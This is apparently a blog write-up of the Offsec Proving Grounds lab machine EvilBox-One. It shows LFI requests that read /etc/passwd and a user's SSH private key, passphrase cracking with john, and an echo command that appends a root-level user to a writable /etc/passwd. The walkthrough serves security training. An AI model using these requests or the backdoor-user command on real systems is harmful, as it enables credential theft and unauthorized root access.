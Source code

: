 ```yaml
---
title: "Proving grounds Play: EvilBox-One"
layout: post
date: 2023-09-02 03:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 || Web

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/web.png)

## Fuzzing

### Files

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/robots.png)

### Directory

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir1.png)

Fuzz for files in `/secrets` directory.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir2.png)

**Found file evil.php**

http://192.168.152.212/secret/evil.php

## Fuzz for paramaters

http://192.168.152.212/secret/evil.php?FUZZ=/etc/passwd

Trying local file inclusion vulnerability to check the words retieved in the response to confirm the parameter.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/param.png)

http://192.168.152.212/secret/evil.php?command=/etc/passwd

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/lfi.png)

As shown in the above `/etc/passwd` file we have a user `mowree`.

```sh
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Using the LFI vulnerability we can obtain the SSH key for the user `mowree`.

http://192.168.152.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/mowree-ssh.png)

SSH to mowree using the SSH key.

Using id_rsa key to login to the `mowree` user account is prompted with password to continue. So use `ssh2john` to create hash for the SSH key and crack the same using john.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/crack-password.png)

Extracted password `unicorn`

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/user.png)

## Privilege Escalation

Check the permissions for `/etc/passwd`.

/etc/passwd is writable so we can create our own root user.

**Writing new user to /etc/passwd**

```sh
echo "hacker:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Switch to user `hacker` and enter password `mypass` to obtain root.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).